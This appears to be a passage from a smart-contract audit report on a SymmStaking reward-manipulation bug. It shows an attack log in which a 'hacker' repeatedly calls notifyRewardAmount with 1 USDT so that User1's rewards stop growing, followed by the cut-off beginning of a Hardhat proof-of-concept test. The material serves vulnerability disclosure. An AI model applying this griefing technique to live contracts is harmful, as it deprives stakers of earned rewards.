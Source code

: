 ```bash 
>>> [Reward State] Duration: 604800
>>> [Reward State] Rate: 0
>>> [Reward State] Period Finish: 1741514248
>>> [Reward State] Last Updated: 1740909448
>>> [Reward State] Per Token Stored: 190478395061728395
>>> [Time Travel] Increased time by an additional 1 day (attacker intervention).
>>> [Reward Calculation] After 6 days, expected reward for User1: 115201
>>> [Attack] Initiating reward manipulation attack.
>>> [Attack] Hacker approved 1 USDT for transfer.
>>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.
>>> [Reward State] Duration: 604800
>>> [Reward State] Rate: 0
>>> [Reward State] Period Finish: 1741600650
>>> [Reward State] Last Updated: 1740995850
>>> [Reward State] Per Token Stored: 190478395061728395
>>> [Time Travel] Increased time by an additional 1 day (attacker intervention).
>>> [Reward Calculation] After 7 days, expected reward for User1: 115201
>>> [Attack] Initiating reward manipulation attack.
>>> [Attack] Hacker approved 1 USDT for transfer.
>>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.
>>> [Reward State] Duration: 604800
>>> [Reward State] Rate: 0
>>> [Reward State] Period Finish: 1741687052
>>> [Reward State] Last Updated: 1741082252
>>> [Reward State] Per Token Stored: 190478395061728395
>>> [Time Travel] Increased time by an additional 1 day (attacker intervention).
>>> [Reward Calculation] After 8 days, expected reward for User1: 115201



```

### PoC

```typescript
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers";
import { expect } from "chai";
import { ethers } from "hardhat";
import { ERC20, Symmio, SymmStaking } from "../typechain-types";
import { e } from "../utils";
import { initializeFixture, RunContext } from "./Initialize.fixture";

export function shouldMisBehaveLikeSymmStaking() {
	let context: RunContext;
	let symmStaking: SymmStaking;
	let stakingToken: Symmio;
	let user1: SignerWithAddress;
	let user2: SignerWithAddress;
	let admin: SignerWithAddress;
	let hacker: SignerWithAddress;
	let usdtToken: ERC20;
	let usdcToken: ERC20;

	beforeEach(async function () {
		context = await loadFixture(initializeFixture);
		symmStaking = context.symmStaking;
		admin = context.signers.admin;
		user1 = context.signers.user1;
		user2 = context.signers.user2;
		hacker = context.signers.hacker;
		stakingToken = context.symmioToken;

```